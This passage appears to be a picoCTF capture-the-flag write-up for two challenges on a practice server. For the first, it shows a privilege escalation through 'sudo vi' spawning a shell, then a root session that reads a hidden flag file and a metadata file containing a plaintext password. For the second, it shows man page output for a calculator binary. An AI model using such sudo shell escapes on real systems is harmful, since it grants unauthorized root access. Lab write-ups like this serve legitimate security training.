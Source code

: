 Connect to the remote server with `ssh`.

```bash
ssh -p 55519 picoplayer@saturn.picoctf.net
```

There are 2 ways to get the flag. The first one is probably unintended because we can simply navigate to `/` directory and `cat` the contents of `challenge` folder. The other one is to run:

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

```bash
picoplayer@challenge:/challenge$ sudo vi

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
# ls -la
total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Mar 29 12:24 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{XXX}
# ^C
# 

shell returned 130

Press ENTER or type command to continue
picoplayer@challenge:/challenge$ cat /challenge/metadata.json | grep pico
{"flag": "picoCTF{XXX}", "username": "picoplayer", "password": "pEN9KN1qYm"}
```

### useless

Connect to the server via `ssh`.

```bash
ssh -p 55859 picoplayer@saturn.picoctf.net 
```

Then we run `man` on the `useless` binary and get the flag.

```bash
picoplayer@challenge:~$ man useless 

useless
     useless, — This is a simple calculator script

SYNOPSIS
     useless, [add sub mul div] number1 number2

DESCRIPTION
     Use the useless, macro to make simple calulations like addition,subtraction, multiplication and division.

Examples
     ./useless add 1 2
       This will add 1 and 2 and return 3

     ./useless mul 2 3
       This will return 6 as a product of 2 and 3

```
